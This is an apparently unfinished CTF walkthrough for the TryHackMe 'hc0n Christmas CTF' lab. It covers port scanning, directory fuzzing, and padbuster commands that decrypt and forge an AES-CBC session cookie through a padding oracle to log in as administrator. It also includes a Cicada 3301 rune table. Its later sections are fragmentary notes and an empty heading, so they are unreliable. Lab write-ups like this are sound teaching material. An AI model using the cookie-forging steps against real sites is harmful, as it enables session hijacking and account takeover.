







## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with apache http server and port `8080` with some http service.
```bash
PORT     STATE SERVICE    REASON         VERSION                                                                                                                                             
22/tcp   open  ssh        syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                                                                        
| ssh-hostkey:                                                                                                                                                                               
|   2048 0b:e7:57:fa:16:73:ff:93:03:b8:f6:c5:c3:f3:16:07 (RSA)                                                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDl8Ks26llDVUI6WmMX4l2SH2Hz0lV7s7zHN7w2Fh4/7dAEN1IEn9/kstN9CbbzrLBIEESqh76Zc3kqku0qVv1bFBua8H99GPBs+JuKOJDPSfxqzZVCo29PD3IfXtjHZE7hDzK5O7Zgc/I1bmql1Jb
GOYEwCd6fkh2PC2wPLVShZCjoNHCst/5ZqJdahgTdnzG5p1G0FXzbIWxjMag55BjTeFjSrX2ZkNnpAkiaTf/EtYldn+t5qoSBk/M2McN+yvGJ78GSheCXHvVn5Wltaguo1lmbasNkNEVk/X4X/WX81QGvpfcRKEy+uWpHsvuSMEwGzj1n2v3zeU1lsAcT
zxYv                                                                                                                                                                                         
|   256 17:8d:5b:e2:80:56:d1:96:e6:86:40:d4:82:c5:b3:08 (ECDSA)                                                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEAiQNhjX4lJu6G9idukrI2lHFzir+MqxwDLsn1L7KIiuHMIABxCZFpVEzGuBt9CdZ8fEreCiw3cY/SKCWFhOOE=                           
|   256 b6:d3:2b:0b:fe:e8:41:da:84:3d:08:c4:a2:71:4e:d9 (ED25519)                                                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMcjbS/2K0TmLZv/kLKs8/68K4/oa8Qy26wwHfYaWdlj                                                                                                           
80/tcp   open  http       syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))                                                                                                                      
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                 
| http-methods:                                                                                                                                                                              
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                 
|_http-title: hc0n Christmas CTF                                                                                                                                                             
8080/tcp open  http-proxy syn-ack ttl 62                                                                                                                                                     
|_http-title: Site doesn't have a title.                                                                                                                                                     
|_http-open-proxy: Proxy might be redirecting requests                                                                                                                                       
| http-methods:                                                               
|_  Supported Methods: GET HEAD POST OPTIONS
```

I added `hc0nChristmasCTF.thm` to my `/etc/hosts`.

### Exploit padding oracle attack to forge cookie and login as administratorhc0nwithyhackme

This is the root page:



We can see the login and register functionally, I created a user and logged in. 



Behind the scenes, we got this `hcon` cookie:
```bash
hcon=lLQpbjts2PnDOGpSOTDFgopNgr9NYw3B
```



I tried to remove one character from the cookie, which is base64 string, and got the message `Invalid padding`.



Since the cookie is in length 24, and I got padding error, I guesses this is using AES-CBC, with block size of 8 (24 = 3 * 2^3) and oracle padding.
So, It might be vulnerable to padding oracle attack, [https://en.wikipedia.org/wiki/Padding_oracle_attack](https://en.wikipedia.org/wiki/Padding_oracle_attack).

I used the tool `padbuster`, this is the line: (It takes time, be patient...)
```bash
padbuster http://hc0nchristmasctf.thm/ 9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt 8 --cookies hcon=9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt --encoding 0 -error='Invalid padding'
```



We can see we got a string. We managed to decrypt the cookie, and get the plain text:
```bash
user=aaaa
```

So, we can use it to forge for ourselves a cookie, let's try to forge cookie for user `LOL`:
```bash
padbuster http://hc0nchristmasctf.thm/ 9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt 8 --cookies hcon=9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt --encoding 0 -error='Invalid padding' -plaintext='user=LOL'
```

We made it! we can grab the cookie:
```bash

```

As we can see, it did searched for user `LOL`, however, it isn't exist.

Now, in order to continue, we need to fuzz, we'll get back to this later. We need to find the username for the admin, in order to create its cookie and login as admin:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ ffuf -u 'http://hc0nChristmasCTF.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hc0nChristmasCTF.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 149ms]
images                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 4539ms]
css                     [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 177ms]
javascript              [Status: 301, Size: 333, Words: 20, Lines: 10, Duration: 165ms]
classes                 [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 154ms]
                        [Status: 200, Size: 1975, Words: 426, Lines: 51, Duration: 156ms]
hide-folders            [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 163ms]
:: Progress: [220545/220545] :: Job [1/1] :: 193 req/sec :: Duration: [0:15:16] :: Errors: 0 ::
```

on `/classes` we can find several php files, however they are all empty, found all under `/admin/*.php`:



Next, I went to `robots.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/Hc0nChristmasCTF]
└─$ curl 'http://hc0nchristmasctf.thm/robots.txt'

#Administrator for / is: administratorhc0nwithyhackme
#remember, remember the famous group 3301 to solve this, the secret IV wait for you!

User-agent: *
Allow: iv.png
``` 

Okay, they told us that the administrator is `administratorhc0nwithyhackme`.

Oh, let's use this administrator name, to create our cookie and login as admin:
```bash
padbuster http://hc0nchristmasctf.thm/ 9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt 8 --cookies hcon=9QKwi5AydTkgTTkyx3v2MQ6ZYlo5whlt --encoding 0 -error='Invalid padding' -plaintext='user=administratorhc0nwithyhackme'
```

### ...


We got `iv.png`, and also that "famous group 3301" can help us to solve this, and get our secret IV.


It looks like some runes, I googled this with famous group 3301. I found this is some famous group called `Cicada 3301` which published super hard challenges online, during 2012-2014.

I found this website the explains about this challenge, [https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved](https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved). 
This table we given on the website. 


and in text format:
| Rune | Letter | Decimal Value | Prime Value |
|------|--------|---------------|-------------|
| ᚠ | F | 0 | 2 |
| ᚢ | V (U) | 1 | 3 |
| ᚦ | TH | 2 | 5 |
| ᚩ | O | 3 | 7 |
| ᚱ | R | 4 | 11 |
| ᚳ | C (K) | 5 | 13 |
| ᚷ | G | 6 | 17 |
| ᚹ | W | 7 | 19 |
| ᚻ | H | 8 | 23 |
| ᚾ | N | 9 | 29 |
| ᛁ | I | 10 | 31 |
| ᛄ | J | 11 | 37 |
| ᛇ | EO | 12 | 41 |
| ᛈ | P | 13 | 43 |
| ᛉ | X | 14 | 47 |
| ᛋ | S (Z) | 15 | 53 |
| ᛏ | T | 16 | 59 |
| ᛒ | B | 17 | 61 |
| ᛖ | E | 18 | 67 |
| ᛗ | M | 19 | 71 |
| ᛚ | L | 20 | 73 |
| ᛝ | NG (ING) | 21 | 79 |
| ᛟ | OE | 22 | 83 |
| ᛞ | D | 23 | 89 |
| ᚪ | A | 24 | 97 |
| ᚫ | AE | 25 | 101 |
| ᚣ | Y | 26 | 103 |
| ᛡ | IA (IO) | 27 | 107 |
| ᛠ | EA | 28 | 109 |

Now, we can try to decode
```bash
THEIVFORINGEOAEY
```

### ...

analze apk file, find cipher text, encrypt with blabla

grab the lol.


After decoding, I got 
Next, inside `
Fuff host, exploit oracle padding attack and grab key.
Get IV from image. Crack the secret. Add to the ssh key. login via ssh :D

### ...

grab the ssh key from `/hide-folders`.

### Privilege Escalation to Root


